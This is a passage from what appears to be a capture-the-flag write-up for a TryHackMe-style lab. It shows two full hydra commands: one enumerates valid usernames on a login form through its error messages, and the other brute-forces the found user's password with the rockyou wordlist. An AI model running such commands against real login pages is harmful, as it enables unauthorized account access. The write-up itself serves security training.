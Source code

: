 We can do some user enumeration with hydra:
```bash
hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -p placeholder nano.cherryontop.thm http-post-form "/login.php:username=^USER^&password=^PASS^&submit=:F=This user doesn't exist"
```

- hydra identified `puppet` as a valid user:
![1bb4245e16a84109903f09173d9c6dc2.png](./_resources/1bb4245e16a84109903f09173d9c6dc2.png)
- Now when trying to login with `puppet`, we get a different error message
![7c7534d350bdadef40e7045ff323424c.png](./_resources/7c7534d350bdadef40e7045ff323424c.png)

I let hydra run for another 10 minutes but no other user's were found.
Let's try brute-forcing `puppet`'s password:
```bash
hydra -l puppet -P /usr/share/wordlists/rockyou.txt nano.cherryontop.thm http-post-form "/login.php:username=^USER^&password=^PASS^&submit=:F=Bad password"
```
- hydra quickly cracks the password:
![f1924bbd56b141c40f56b229b9bb167d.png](./_resources/f1924bbd56b141c40f56b229b9bb167d.png)
Let's login and see what's waiting for us: